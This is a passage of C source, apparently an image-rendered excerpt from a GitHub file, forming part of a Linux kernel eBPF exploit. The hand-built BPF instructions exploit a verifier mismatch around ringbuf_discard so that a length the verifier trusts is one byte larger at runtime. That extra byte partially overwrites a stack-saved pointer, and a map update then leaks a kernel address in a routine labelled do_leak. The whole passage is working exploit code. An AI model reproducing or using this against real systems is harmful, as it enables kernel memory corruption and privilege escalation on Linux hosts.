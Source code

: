 ```c
        BPF_MOV64_REG(BPF_REG_1, BPF_REG_0),
        BPF_ALU64_IMM(BPF_ADD, BPF_REG_1, 1),

        // if (r0 != NULL) { ringbuf_discard(r0, 1); exit(2); }
        BPF_JMP_IMM(BPF_JEQ, BPF_REG_0, 0, 5),
        BPF_MOV64_REG(BPF_REG_1, BPF_REG_0),
        BPF_MOV64_IMM(BPF_REG_2, 1),
        BPF_RAW_INSN(BPF_JMP | BPF_CALL, 0, 0, 0, BPF_FUNC_ringbuf_discard),
        BPF_MOV64_IMM(BPF_REG_0, 2),
        BPF_EXIT_INSN(),

        // verifier believe r0 = 0 and r1 = 0. However, r0 = 0 and  r1 = 1 on runtime.

        // r7 = r1 + 8
        BPF_MOV64_REG(BPF_REG_7, BPF_REG_1),
        BPF_ALU64_IMM(BPF_ADD, BPF_REG_7, 8),

        // verifier believe r7 = 8, but r7 = 9 actually.

        // store the array pointer (0xFFFF..........10 + 0xE0)
        BPF_MOV64_REG(BPF_REG_6, BPF_REG_8),
        BPF_ALU64_IMM(BPF_ADD, BPF_REG_6, 0xE0),
        BPF_STX_MEM(BPF_DW, BPF_REG_10, BPF_REG_6, -8),

        // partial overwrite array pointer on stack

        // r0 = bpf_skb_load_bytes_relative(r9, 0, r8, r7, 0)
        BPF_MOV64_REG(BPF_REG_1, BPF_REG_9),
        BPF_MOV64_IMM(BPF_REG_2, 0),
        BPF_MOV64_REG(BPF_REG_3, BPF_REG_10),
        BPF_ALU64_IMM(BPF_ADD, BPF_REG_3, -16),
        BPF_MOV64_REG(BPF_REG_4, BPF_REG_7),
        BPF_MOV64_IMM(BPF_REG_5, 1),
        BPF_RAW_INSN(BPF_JMP | BPF_CALL, 0, 0, 0, BPF_FUNC_skb_load_bytes_relative),

        // r6 = 0xFFFF..........00 (off = 0xE0)
        BPF_LDX_MEM(BPF_DW, BPF_REG_6, BPF_REG_10, -8),
        BPF_ALU64_IMM(BPF_SUB, BPF_REG_6, 0xE0),

        
        // map_update_elem(ctx->comm_fd, 0, r6, 0)
        BPF_LD_MAP_FD(BPF_REG_1, ctx->comm_fd),
        BPF_MOV64_REG(BPF_REG_2, BPF_REG_8),
        BPF_MOV64_REG(BPF_REG_3, BPF_REG_6),
        BPF_MOV64_IMM(BPF_REG_4, 0),
        BPF_RAW_INSN(BPF_JMP | BPF_CALL, 0, 0, 0, BPF_FUNC_map_update_elem),

        BPF_MOV64_IMM(BPF_REG_0, 0),
        BPF_EXIT_INSN()
    };

    int prog = bpf_prog_load(BPF_PROG_TYPE_SOCKET_FILTER, insn, sizeof(insn) / sizeof(insn[0]), "");
    if (prog < 0) {
        WARNF("Could not load program(do_leak):\n %s", bpf_log_buf);
        goto abort;
    }

    int err = bpf_prog_skb_run(prog, ctx->bytes, 8);

    if (err != 0) {
        WARNF("Could not run program(do_leak): %d (%s)", err, strerror(err));
        goto abort;
```